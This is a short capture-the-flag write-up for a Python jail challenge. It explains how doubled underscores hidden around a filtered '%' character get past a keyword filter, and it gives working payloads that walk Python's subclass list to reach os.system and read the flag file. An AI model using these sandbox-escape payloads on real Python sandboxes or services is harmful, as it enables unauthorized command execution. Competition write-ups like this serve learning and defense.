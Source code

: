 # incognito CTF 2022

## pyjail 1

a python jail challenge which was filtering ```__``` so we couldn't call ```__builtins__``` or etc.
after some fuzzing I found that ```%``` is also filtered. so there was an idea for me


in fuzzing part I got that ```__``` will be replaced with nothing, ```%``` also replaced with nothing.
THE IDEA =>  what if we write ```_%_```.    YES , ```%``` would be replaced with nothing and now we have ```__```
so let's write our payload.


1) List all classes which are running in this python system by using this command. ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()```.
2) Find the index of ```<class 'os._wrap_close'>``` in this case the index of ```<class 'os._wrap_close'>``` is 138.
3) Call the system module in ```__globals__``` to list files and directories by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('ls')```.
4) Show the flag string from ```jail1``` by using this command ```''._%_class_%_._%_mro_%_[1]._%_subclasses_%_()[138]._%_init_%_._%_globals_%_['system']('cat jail1')```.

## we got the flag

```ictf{REDACTED}```



there were 2 more pyjail challenges which we solved all of them.
